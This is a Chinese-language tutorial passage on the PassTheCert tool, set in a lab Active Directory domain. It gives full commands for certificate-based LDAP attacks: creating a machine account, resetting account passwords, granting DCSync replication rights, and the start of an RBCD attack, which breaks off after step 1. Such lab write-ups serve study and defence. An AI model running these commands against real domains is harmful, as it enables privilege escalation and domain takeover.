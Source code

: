 [工具地址 - PassTheCert](https://github.com/AlmondOffSec/PassTheCert)  
一款通过 C# 实现的 PTC 攻击工具，允许用证书对 LDAP/S 服务器进行认证，以执行不同的攻击行动

工具 PassTheCert.exe 和证书 NoPKI.pfx 需要落地至域主机内（20.20.20.10）

下边介绍不同参数的使用，一个完整的使用过程可以见 RBCD 攻击（第四块带星号部分）

### 添加用户 | --add-computer

```shell
PassTheCert.exe --add-computer --server DC01.hack.lab --cert-path NoPKI.pfx --computer-name NoPKI$ --computer-password 123.com
```

\--add-computer 执行添加机器账户的攻击行为  
\--server 指定目标服务器（域控）  
\--cert-path 指定证书路径（可以使用绝对路径）  
\--computer-name 指定创建的机器账户名称  
\--computer-password 指定密码

### 修改密码 | --reset-password

重置目标账户的密码，需要有 User-Force-Change-Password 权限（指当前用户）

```shell
# 重置目标账户的密码
PassTheCert.exe --reset-password --target "CN=NoPKI,CN=Computers,DC=hack,DC=lab" --new-password QWEasdzxc --server DC01.hack.lab --cert-path NoPKI.pfx --computer-name NoPKI$

Success

# 修改目标用户，但是当前用户对chaoren用户没有修改权限
PassTheCert.exe --reset-password --target "CN=chaoren,CN=Users,DC=hack,DC=lab" --new-password QWEasdzxc --server DC01.hack.lab --cert-path NoPKI.pfx --computer-name NoPKI$
```

\--reset-password 执行密码重置  
\--target 指定修改的对象  
\--new-password 指定重置后的密码

### 权限提升 | --elevate

提升一个用户在域上的权限，授予 DS-Replication-Get-Changes 和 DS-Replication-Get-Changes-All 权限

```shell
PassTheCert.exe --elevate --sid S-1-5-21-3309395417-4108617856-2168433834-3607 --server DC01.hack.lab --cert-path NoPKI.pfx --target "CN=DC01,OU=Domain Controllers,DC=hack,DC=lab"
```

\--elevate 执行特定用户的权限提升操作  
\--sid 指定待提权的用户

### \* RBCD 攻击 | --rbcd

1. 创建机器用户
    
    ```shell
    PassTheCert.exe --add-computer --server DC01.hack.lab --cert-path NoPKI.pfx --computer-name NoPKI$ --computer-password 123.com
    ```
    
